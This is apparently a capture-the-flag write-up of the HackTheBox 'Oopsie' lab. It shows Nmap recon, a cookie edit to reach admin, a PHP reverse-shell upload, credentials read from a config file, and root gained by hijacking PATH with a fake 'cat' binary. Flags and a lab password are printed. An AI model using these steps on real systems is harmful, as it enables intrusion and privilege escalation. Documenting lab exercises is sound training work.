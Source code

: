 #HackTheBox 
# 1- Recon
## Nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61e43fd41ee2b2f10d3ced36283667c7 (RSA)
|   256 241da417d4e32a9c905c30588f60778d (ECDSA)
|_  256 78030eb4a1afe5c2f98d29053e29c9f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome

## Burp SiteMap
http://htb/cdn-cgi/login/script.js $(login page)$

# 2- Exploitation
## Connexion as guest

### Find
| Access ID |  Name |  Email |
|    34322    | admin | admin@megacorp.com

### Modify cookie with admin infos
## 
## Revershell uploaded in upload form
usr/share/webshells/php/php-reverse-shell.php

# 3- Foothold
## Find
[www-data@oopsie:/home/robert$] cat user.txt
f2c74ee8db7983851ab2a96a44eb7981
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert',' M3g4C0rpUs3r! ','garage');
?>
# 4- Translation
[www-data@oopsie:/var/www/html/cdn-cgi/login$] su robert
Password: M3g4C0rpUs3r!

## Find
[robert@oopsie:~$] id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)

[robert@oopsie:~$] find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker


# 5- PrivEsc
[robert@oopsie:~$] /usr/bin/bugtracker
/usr/bin/bugtracker------------------
: EV Bug Tracker :
Provide Bug ID: 4
cat: /root/reports/4: No such file or directory

## Exploit not absolut path environment
#ExploitNotAbsolutPath 
[robert@oopsie:/tmp$] PATH=/tmp:$PATH
[robert@oopsie:/tmp$] echo "/bin/bash" > cat && chmod +x cat

robert@oopsie:/tmp$ /usr/bin/bugtracker
: EV Bug Tracker :
Provide Bug ID: 4
[root@oopsie:/root#] more root.txt
af13b0bee69f8a877c3faf667f7beacf
